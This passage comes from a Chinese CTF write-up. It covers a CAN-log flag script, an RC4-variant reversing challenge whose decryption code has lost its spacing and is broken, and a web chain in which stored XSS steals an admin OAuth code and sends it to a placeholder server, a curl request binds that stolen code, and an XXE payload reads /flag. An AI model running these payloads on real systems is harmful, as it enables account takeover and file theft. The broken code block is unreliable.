    flag2 = brute_force_flag(last_values)
    
    # 输出结果
    if flag2:
        print(f"flag:{flag2}")
    elif flag1:
        print(f"flag:{flag1}")
    else:
        # 最后手段: 输出从sig_1开始的所有可打印字符
        sig_signals = []
        for sig_name in last_values.keys():
            if sig_name.startswith('sig_'):
                try:
                    idx = int(sig_name.split('_')[1])
                    sig_signals.append((idx, sig_name))
                except:
                    continue
        
        sig_signals.sort()
        all_chars = []
        for idx, sig_name in sig_signals:
            val = last_values[sig_name]
            if 32 <= val <= 126:
                all_chars.append(chr(val))
        
        result = ''.join(all_chars)
        # 在结果中查找flag
        flag_match = re.search(r'flag\{[^}]+\}', result)
        if flag_match:
            print(f"flag:{flag_match.group(0)}")
        else:
            print(f"flag:{result}")
 if __name__ == "__main__":
    main()
 #python exp.py canlog.txt
```

# IOV

## 强网-vintelligence

下载附件发现存在一个apk文件和一个流量包

接着将流量包放入梭哈工具发现得到密文   




Jadx 反编译



发现调用native层函数



但是应该动态加载到了：





KSA：j = (j + S[i] + key[i % L] + 3) mod 256（多了常数 +3），

并对 S[i] 与 S[j] 交换；初始 S[i]=i （虽然你那堆 SSE 常量很绕，本质就是 0..255）。

​

PRGA：每轮 i = (i + 1) mod 256 j = (j + S[i]) mod 256

交换 S[i] 与 S[j] t = (S[i] + S[j]) mod 256

取 S[t] 的低 8 位当作密钥字节，与明文字节异或 这点也按你的实现用“32 位数组 + 取低字节”对齐了）

发现java层还有个a.a的实现：



解密即可：

```
#hardcodedinputs
 C ="3017284f2ed903814311c68d5149bf5c12"
 RK=b"SecretKey"
 PK=b"PMZPFVDM"
 defksa_plus3(k):
 S=list(range(256));j=0;L=len(k)
 fori inrange(256):
 j=(j+S[i]+k[i%L]+3)&255
 S[i],S[j]=S[j],S[i]
 returnS
 defrc4_stream(S,data):
 i=j=0;out=bytearray()
 forbindata:
 i=(i+1)&255;j=(j+S[i])&255
 S[i],S[j]=S[j],S[i]
 out.append(b^S[(S[i]+S[j])&255])
 returnbytes(out)
 definvert_pre(y,key):
 L=len(key)
 returnbytes((((y[i]^key[i%L])-key[i%L])&0xFF)fori inrange(len(y)))
 pre =rc4_stream(ksa_plus3(RK),bytes.fromhex(C))
 orig=invert_pre(pre,PK)
 print(f"flag{{{orig.decode('ascii')}}}"
```



# Web

## FleetCorp WriteUp

### 题目背景

FleetCorp 是一个车队管理系统，使用 AutoCorp 的 SSO (Single Sign-On) 系统进行身份认证。系统管理员会定期查看论坛中的用户讨论。

目标：

获取服务器上的 flag 文件 (`/flag`)

### 预期解法

第一步：发现漏洞点

1. **注册并登录**：在 AutoCorp SSO 注册一个新账户（例如 `attacker`），然后授权 FleetCorp
2. **探索论坛**：访问论坛页面 `/fleetcorp/forum`
3. **发现关键漏洞**：

* 论坛允许发布 HTML 内容（存储型 XSS）
* 论坛底部有一个 iframe，显示"Quick Actions"（快捷操作）
* 该 iframe 加载 `/fleetcorp/forum/quick-actions` 页面
* iframe 页面在加载时会通过 `postMessage` 将其完整 URL（包括所有 query 参数）发送给父窗口，且 `targetOrigin` 为 `*`

1. **测试 OAuth 流程**：

* 测试 OAuth 授权流程，发现 `redirect_uri` 验证只检查路径是否以 `/fleetcorp/` 开头
* 观察发现 SSO 登录使用 authorization code flow (`response_type=code`)，authorization code 会作为 URL 参数返回

第二步：构造 XSS Payload 窃取 OAuth Authorization Code

**攻击原理**：

* 利用论坛的存储型 XSS，在管理员访问时触发恶意 JavaScript
* 构造特殊的 OAuth URL，使用 authorization code flow (`response_type=code`)
* 将 `redirect_uri` 指向 iframe 加载的 `/fleetcorp/forum/quick-actions` 页面
* 当管理员已登录 SSO 时，会自动完成授权并重定向
* authorization code 会作为 URL 参数返回：`/fleetcorp/forum/quick-actions?code=xxx`
* iframe 页面的 postMessage 会将完整 URL（包括 code 参数）发送给父窗口
* XSS payload 监听 message 事件，捕获 code 并外传

**Payload 示例**：

```
<script>
// 监听来自 iframe 的消息
window.addEventListener('message', function(e) {
  if (e.data && e.data.type === 'iframe_loaded') {
    // iframe 发送的完整 URL
    var url = e.data.data;
    
    // 检查是否包含 authorization code
    if (url.indexOf('code=') > -1) {
      // 提取 authorization code
      var urlObj = new URL(url);
      var code = urlObj.searchParams.get('code');
      
      if (code) {
        // 将 code 发送到攻击者的服务器
        fetch('http://YOUR-SERVER-IP:PORT/?code=' + encodeURIComponent(code));
      }
    }
  }
}, false);

// 等待页面加载完成后触发 OAuth 流程
setTimeout(function() {
  // 构造恶意 OAuth URL，使用 authorization code flow
  var oauth_url = '/auth/authorize?' +
    'client_id=FLEETCORP_CLIENT_ID' +
    '&response_type=code' +  // 使用 authorization code flow
    '&redirect_uri=' + encodeURIComponent('/fleetcorp/forum/quick-actions') +  // 使用相对路径
    '&scope=profile:write' +
    '&authorize=1'; 
  
  // 在隐藏的 iframe 中触发 OAuth，避免页面跳转
  var iframe = document.createElement('iframe');
  iframe.style.display = 'none';
  iframe.src = oauth_url;
  document.body.appendChild(iframe);
}, 2000);
</script>

<p>test post</p>
```

第三步：使用 Authorization Code 绑定管理员账号

**发现攻击路径**：

1. **探索系统功能**：

* 访问 `/fleetcorp/profile`，注意到页面显示了当前用户的 `Role`（USER 或 ADMIN）
* 页面说明：*"Your FleetCorp account roles and permissions will be synchronized with the AutoCorp system."* 提示 SSO 绑定会影响用户角色/权限

1. **查阅 API 文档**：

```
POST /api/v1/user/sso/bind
Bind AutoCorp SSO account to FleetCorp account
```

* 访问 `/fleetcorp/docs` 页面，在 API Documentation 部分发现：
* 注意到该 API 可以手动绑定 SSO 账号

1. **理解攻击逻辑**：

* 我们已经窃取了管理员的 authorization code
* 该 code 代表的是**管理员在 AutoCorp SSO 中的身份**
* 如果我们用这个 code 调用 `/api/v1/user/sso/bind`，API 会：

1. 使用 code 从 AutoCorp SSO 获取用户信息（管理员的 SSO ID）
2. 将这个 SSO 身份绑定到**我们当前登录的账户**
3. 由于该 SSO ID 属于管理员账户，系统会将管理员的角色同步到我们的账户！

1. **执行权限提升攻击**：

```
# 1. 访问 /fleetcorp/docs 页面，从页面中获取当前的 CSRF token
#    在 "POST /api/v1/user/sso/bind" 部分可以看到：
#    X-CSRF-Token: <显示的token值>

# 2. 从浏览器 cookie 中获取：
#    _csrf
#    connect.sid
#    session


# 3. 调用 API
curl -X POST http://server-ip:port/fleetcorp/api/v1/user/sso/bind \
  -H "Content-Type: application/json" \
  -H "Cookie: connect.sid=YOUR_SID_COOKIE; _csrf=YOUR_CSRF_COOKIE; session=YOUR_SESSION_COOKIE" \
  -H "X-CSRF-Token: TOKEN_FROM_DOCS_PAGE" \
  -d '{"code": "STOLEN_ADMIN_CODE"}'
```

* 刷新页面，现在可以访问 Admin Dashboard。

第四步：XXE 攻击获取 Flag

获得管理员权限后：

1. 访问 Admin Dashboard：`http://localhost:8080/fleetcorp/admin/dashboard`
2. 在"Generate Vehicle Report"部分，切换到"Advanced Mode (Direct XML Input)"
3. 提交 XXE payload 读取 flag 文件：

**Payload**：

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
  <!ENTITY xxe SYSTEM "file:///flag">
]>
<report>
  <vehicle>
    <vin>&xxe;</vin>
  </vehicle>
  <metadata>
    <template>standard</template>
    <requestedBy>admin</requestedBy>
  </metadata>
</report>
```

1. 点击"Generate Report (XML)"
2. Flag 内容会显示在生成的报告中的 VIN 字段

**漏洞总结**

攻击链

```
存储型 XSS (论坛)
    ↓
监听 postMessage 事件
    ↓
触发 OAuth Authorization Code Flow (iframe)
    ↓
redirect_uri 指向 comment-form
    ↓
authorization code 在 URL 参数中
    ↓
postMessage 泄露 code 给父窗口
    ↓
XSS 捕获并外传 code
    ↓
攻击者获得管理员 code
    ↓
登录自己账户，调用 /api/v1/user/sso/bind
    ↓
将管理员的 SSO 身份绑定到自己账户
    ↓
刷新页面，获得管理员权限
    ↓
访问 Admin Dashboard
    ↓
提交 XXE payload
    ↓
读取 /flag 文件
    ↓
获得 Flag
```

服务架构（nginx.conf）

* **FleetCorp App**: 主应用，端口 3001
* **AutoCorp Auth**: OAuth 2.0 提供者，端口 5001
* **Report Generator**: 报告生成服务，端口 8081
* **Nginx**: 反向代理，端口 80
